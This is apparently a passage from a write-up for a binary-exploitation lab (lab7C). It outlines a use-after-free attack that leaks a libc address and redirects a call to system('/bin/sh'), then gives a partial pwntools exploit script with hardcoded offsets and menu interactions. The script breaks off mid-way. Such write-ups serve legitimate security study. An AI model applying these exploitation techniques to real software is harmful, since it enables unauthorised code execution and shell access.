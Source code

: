 > step 3:  

calculate `system@GLIBC` from `ret` of `main`  

**2.system("/bin/sh");**  

allocate `data` with `buffer = "/bin/sh"`  
&nbsp;\\_free `data`  
&nbsp;&nbsp;\\_allocate `number` with `num = system@GLIBC`  
&nbsp;&nbsp;&nbsp;\\_print `string` of index 1  

**3.exploit.py**  

```python
#!/usr/bin/env python2

from pwn import *

# setup context
# context.log_level = 'debug'

# load elf
e = ELF('/levels/lab07/lab7C')

# start process
p = process(e.path)

#
# info leak
# get addr of 'small_str'
# get offset_system_libc by:
#     readelf -s GLIBC_PATH | grep system
# get offset_main_ret_libc by:
#     gdb -batch -ex "disas __libc_start_main" GLIBC_PATH 
# main returns one instruction before 'call <__GI_exit>'
#
offset_small_str=0xbc7
offset_printf_plt=0x880
offset_system_libc=0x40190
offset_main_ret_libc=0x19a83

#
# make a number "1"
# delete this number
#
p.recvuntil("Enter Choice: ")
p.sendline("2")
p.recvuntil("Input number to store: ")
p.sendline("1")
p.recvuntil("Enter Choice: ")
p.sendline("4")
#
# make a string "abc"
# print number
# delete this string
#
p.recvuntil("Enter Choice: ")
p.sendline("1")
# BUG? p.recvuntil("Input string to store: ")
p.sendline("abc")
p.recvuntil("Enter Choice: ")
p.sendline("6")
p.recvuntil("Number index to print: ")
p.sendline("1")
p.recvuntil("not 1337 enough: ")
tmp = p.recvline()
```